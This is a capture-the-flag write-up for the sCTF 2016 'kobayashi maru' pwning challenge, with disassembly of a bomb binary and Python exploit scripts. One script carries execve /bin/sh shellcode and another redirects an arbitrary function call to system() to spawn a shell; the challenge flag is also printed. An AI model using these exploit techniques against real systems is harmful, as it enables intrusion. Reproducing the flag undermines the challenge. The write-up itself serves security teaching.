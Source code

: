## kobayashi maru - 200 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2016-4-17

### Problem ###
The bomb (see: bomb_squad) was pretty simple. But they hid a secret in there, and it's not solvable! Can you break in and win in the face of an unwinnable challenge?
`nc problems2.2016q1.sctf.io 1340`

### Hint ###
None

## Answer ##

### Overview ###
Find a vulnerability and exploit it!

In particular exploit arbitrary calls for this.

### Details ###

The problem name is a reference to [Star Trek](https://en.wikipedia.org/wiki/Kobayashi_Maru). 

The big vulnerability in this problem has to deal with the `secret_phase` in bomb_squad and the `__gg` function found in the binary, which is called on program exit:

```asm
.text:08048751                                      public __gg
.text:08048751                      __gg            proc near               ; DATA XREF: .fini_array:0804AF0Co
.text:08048751
.text:08048751                      var_28          = dword ptr -28h
.text:08048751                      var_24          = dword ptr -24h
.text:08048751                      var_20          = dword ptr -20h
.text:08048751                      var_1C          = dword ptr -1Ch
.text:08048751                      var_18          = dword ptr -18h
.text:08048751                      var_14          = dword ptr -14h
.text:08048751                      var_10          = dword ptr -10h
.text:08048751                      var_C           = dword ptr -0Ch
.text:08048751                      var_4           = dword ptr -4
.text:08048751
.text:08048751 55                                   push    ebp
.text:08048752 89 E5                                mov     ebp, esp
.text:08048754 53                                   push    ebx
.text:08048755 83 EC 24                             sub     esp, 24h
.text:08048758 C7 45 E0 70 B0 04 08                 mov     [ebp+var_20], offset n1
.text:0804875F C7 45 E4 8C B0 04 08                 mov     [ebp+var_1C], offset n2
.text:08048766 C7 45 E8 A8 B0 04 08                 mov     [ebp+var_18], offset n3
.text:0804876D C7 45 EC C4 B0 04 08                 mov     [ebp+var_14], offset n4
.text:08048774 C7 45 F0 E0 B0 04 08                 mov     [ebp+var_10], offset n5
.text:0804877B C7 45 F4 FC B0 04 08                 mov     [ebp+var_C], offset n6
.text:08048782 C7 45 D8 00 00 00 00                 mov     [ebp+var_28], 0
.text:08048789 EB 72                                jmp     short loc_80487FD
.text:0804878B                      ; ---------------------------------------------------------------------------
.text:0804878B
.text:0804878B                      loc_804878B:                            ; CODE XREF: __gg+B0j
.text:0804878B B8 10 00 00 00                       mov     eax, 10h
.text:08048790 83 E8 01                             sub     eax, 1
.text:08048793 83 C0 13                             add     eax, 13h
.text:08048796 BB 10 00 00 00                       mov     ebx, 10h
.text:0804879B BA 00 00 00 00                       mov     edx, 0
.text:080487A0 F7 F3                                div     ebx
.text:080487A2 6B C0 10                             imul    eax, 10h
.text:080487A5 29 C4                                sub     esp, eax        ; eax always is 32 here.
.text:080487A7 89 E0                                mov     eax, esp
.text:080487A9 83 C0 0F                             add     eax, 0Fh
.text:080487AC C1 E8 04                             shr     eax, 4
.text:080487AF C1 E0 04                             shl     eax, 4
.text:080487B2 89 45 DC                             mov     [ebp+var_24], eax
.text:080487B5 8B 45 D8                             mov     eax, [ebp+var_28]
.text:080487B8 8B 54 85 E0                          mov     edx, [ebp+eax*4+var_20]
.text:080487BC 8B 45 DC                             mov     eax, [ebp+var_24]
.text:080487BF 8B 0A                                mov     ecx, [edx]
.text:080487C1 89 08                                mov     [eax], ecx
.text:080487C3 8B 4A 04                             mov     ecx, [edx+4]
.text:080487C6 89 48 04                             mov     [eax+4], ecx
.text:080487C9 8B 4A 08                             mov     ecx, [edx+8]
.text:080487CC 89 48 08                             mov     [eax+8], ecx
.text:080487CF 8B 4A 0C                             mov     ecx, [edx+0Ch]
.text:080487D2 89 48 0C                             mov     [eax+0Ch], ecx
.text:080487D5 8B 4A 10                             mov     ecx, [edx+10h]
.text:080487D8 89 48 10                             mov     [eax+10h], ecx
.text:080487DB 8B 4A 14                             mov     ecx, [edx+14h]
.text:080487DE 89 48 14                             mov     [eax+14h], ecx
.text:080487E1 8B 52 18                             mov     edx, [edx+18h]
.text:080487E4 89 50 18                             mov     [eax+18h], edx
.text:080487E7 8B 45 DC                             mov     eax, [ebp+var_24]
.text:080487EA 8B 40 14                             mov     eax, [eax+14h]
.text:080487ED 85 C0                                test    eax, eax
.text:080487EF 74 08                                jz      short loc_80487F9
.text:080487F1 8B 45 DC                             mov     eax, [ebp+var_24]
.text:080487F4 8B 40 14                             mov     eax, [eax+14h]
.text:080487F7 FF D0                                call    eax
.text:080487F9
.text:080487F9                      loc_80487F9:                            ; CODE XREF: __gg+9Ej
.text:080487F9 83 45 D8 01                          add     [ebp+var_28], 1
.text:080487FD
.text:080487FD                      loc_80487FD:                            ; CODE XREF: __gg+38j
.text:080487FD 83 7D D8 05                          cmp     [ebp+var_28], 5
.text:08048801 7E 88                                jle     short loc_804878B
.text:08048803 8B 5D FC                             mov     ebx, [ebp+var_4]
.text:08048806 C9                                   leave
.text:08048807 C3                                   retn
.text:08048807                      __gg            endp
```

Basically this function will end up calling the last 4 bytes of the name of each node, given that those 4 bytes are not 0.

So we have an arbitrary call to whatever, now we look for something to write code.

How convenient! A function which `mprotect`s a buffer in the `.bss` section, `__pp` which is called on startup:

```asm
.text:08048CDA                                      public __nr
.text:08048CDA                      __nr            proc near
.text:08048CDA
.text:08048CDA                      dest            = byte ptr -10Ch
.text:08048CDA                      var_10          = dword ptr -10h
.text:08048CDA                      var_C           = dword ptr -0Ch
.text:08048CDA
.text:08048CDA 55                                   push    ebp
.text:08048CDB 89 E5                                mov     ebp, esp
.text:08048CDD 81 EC 28 01 00 00                    sub     esp, 128h
.text:08048CE3 65 A1 14 00 00 00                    mov     eax, large gs:14h
.text:08048CE9 89 45 F4                             mov     [ebp+var_C], eax
.text:08048CEC 31 C0                                xor     eax, eax
.text:08048CEE E8 55 FC FF FF                       call    get_line
.text:08048CF3 89 44 24 04                          mov     [esp+4], eax    ; src
.text:08048CF7 8D 85 F4 FE FF FF                    lea     eax, [ebp+dest]
.text:08048CFD 89 04 24                             mov     [esp], eax      ; dest
.text:08048D00 E8 7B F8 FF FF                       call    _strcpy
.text:08048D05 E8 3E FC FF FF                       call    get_line
.text:08048D0A 8B 55 F0                             mov     edx, [ebp+var_10]
.text:08048D0D 89 44 24 04                          mov     [esp+4], eax    ; src
.text:08048D11 89 14 24                             mov     [esp], edx      ; dest
.text:08048D14 E8 67 F8 FF FF                       call    _strcpy
.text:08048D19 8B 45 F4                             mov     eax, [ebp+var_C]
.text:08048D1C 65 33 05 14 00 00 00                 xor     eax, large gs:14h
.text:08048D23 74 05                                jz      short locret_8048D2A
.text:08048D25 E8 46 F8 FF FF                       call    ___stack_chk_fail
.text:08048D2A                      ; ---------------------------------------------------------------------------
.text:08048D2A
.text:08048D2A                      locret_8048D2A:                         ; CODE XREF: __nr+49j
.text:08048D2A C9                                   leave
.text:08048D2B C3                                   retn
.text:08048D2B                      __nr            endp
``` 

And since we know `mprotect` protects all the _pages_ that the range provided overlaps we should just be able to write code into the get_line buffer and execute that, right? Since pages by default on linux are 0x1000 bytes, or 4096 bytes in decimal, the buffer provided to the `mprotect` is only 0x400 or 1024 bytes.

Here's some code that _should_ work:

```python
# Gets it to cat flag or whatever
print '8584'
print '[1,1,3,5,11,21]'
print ''
print '3 0 3 0 3 0 0\0' + "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

import struct
def ga(x):
	return struct.pack('<L', x)

print 'AAAA' + ga(0x804B590)
```

So we try it and no dice, it doesn't execute! Then we bp right after the `mprotect` to see that it fails, always with return code `-1`. 

(The intended solution was to use this RWE buffer for the code to write with the `__nr` function that I don't cover. However the `mprotect` is broken which makes this non-viable, even though `get_line`'s' buffer would also be executable and I could do the cheesey write shellcode there trick for ez exploitation)

Fear not for we can still do the problem, at the time of the call the pointer to the next node is on the top of the stack, meaning we can call system with the name of the node being the parameter.

```python
# Gets it to cat flag or whatever
print '8584'
print '[1,1,3,5,11,21]'
print ''
print '3 0 3 0 3 0 0'

import struct
def ga(x):
	return struct.pack('<L', x)

print 'AAAA' + ga(0x80485a0) + ';/bin/sh'
```

So the call to system in C code would look like `system("\xa8\xb0\x04\x08\xc4\xb0\x04\x08\xe0\xb0\x04\x08\xfc\xb0\x04\x08;/bin/sh");`

This is because it calls the system address with the ptr to node2 on the stack, which acts as the first parameter, because none of the addresses in node2 have a 0 byte in them we can send a bash command easily.

Running the above script, piping it into the nc, then `cat secret.txt` gets you the flag.

### Flag ###

The flag was `sctf{1f_y0u_c4nt_w1n_ch34t}`

